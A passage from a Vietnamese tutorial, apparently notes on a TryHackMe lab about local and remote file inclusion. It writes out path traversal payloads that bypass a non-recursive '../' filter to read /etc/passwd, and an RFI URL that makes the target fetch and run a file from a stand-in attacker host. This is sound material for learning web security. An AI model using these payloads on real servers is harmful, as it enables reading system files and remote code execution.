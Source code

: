 __ Tiếp theo, thì là một lỗi nữa là dev có filter ../ nhưng mà filter kh đệ quy nên ta có thể bypass để thực hiện lab5:

![image](https://user-images.githubusercontent.com/104350480/222920047-e8b1bd91-93f5-449c-9255-7b28623cc976.png)


Bằng cách truyền: /lab5.php?file=....//....//....//....//etc/passwd


__ Cuối cùng ở phần này ta sẽ thảo luận về việc trường hợp dev buộc phần include phải bao gồm 1 vị trí đã định sẵn như:
**http://webapp.thm/index.php?lang=languages/EN.php** , thì để khai thác điều này chúng ta cần include thư mục như sau: 
?lang=languages/../../../../../etc/passwd .
Chẳng hạn như trong bài lab6 là: THM-profile/../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/104350480/222920847-08c21cc5-c96d-4259-8e87-609af80474a5.png)

## 2.3: Remote file inclusion - RFI

__ Remtoe file inclusion là 1 kĩ thuật đọc và thực thi file từ xa (thông thường qua include). Giống như LFI, RFI xảy ra khi xác thực hay lọc đầu vào kh đúng
cách, nhưng nguy hiểm hơn nhiều, cho phép kẻ tấn công đưa 1 url bên ngoài vào chức năng include. Một yêu cầu với RFI là option **allow_url_fopen** cần được bật.

__ Rủi ro của rfi rõ ràng là cao hơn nhiều so với lfi, nó cho phép kẻ tấn công giành được thực thi lệnh từ xa trên máy chủ, các hậu quả của rfi bao gồm:
- Tiết lộ thông tin nhạy cảm.
- xss
- Denial of service(dos)

__ Máy chủ bên ngoài phải liên lạc được máy chủ ứng dụng để tấn công LFI thành công, nơi kẻ tấn công lưu trữ các tệp độc hại trên máy chủ của họ. Sau đó, tệp
độc hại này được đưa vào hàm include thông qua các yêu cầu http và lệnh include này sẽ đọc và thực thi các lệnh trên tệp độc hại truyền vào:
Cụ thể sơ đồ sẽ như sau: 

![image](https://user-images.githubusercontent.com/104350480/222921193-b10794cb-61f6-4f0a-b51f-24e875d7a848.png)

__ Các bước tấn công rfi trong mô hình trên diễn ra như sau: 

Chẳng hạn, kẻ tấn công lưu trữ file cmd.txt trong đó cmd.txt chứa thông báo 'Hello THM' 

![image](https://user-images.githubusercontent.com/104350480/222921520-65bf6a4b-7823-43fd-beca-c0a8a0c5988c.png)


Đầu tiên kẻ tấn công tiêm url độc hại trỏ đến máy chủ để tấn công, chẳng hạn như: **http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt**, nếu không
có xác thực đầu vào thì url độc hại sẽ chuyển qua hàm include. Tiếp theo, máy chủ ứng dụng web sẽ gửi yêu cầu GET đến máy chủ độc hại để nạp file. Do đó tùy
vào nội dung file thì nó sẽ thực thi lệnh php trng file và như ở đây trang web sẽ hiển thị 'Hello THM', tất nhiên là trong thực tế nếu rce được thì ta sẽ
dùng các lệnh nguy hiểm hơn nhiều. Có lẽ tí sẽ demo bằng các bài lab hay hơn thì sẽ dễ hiểu hơn.

## 3. Lab test kiến thức tryhackme
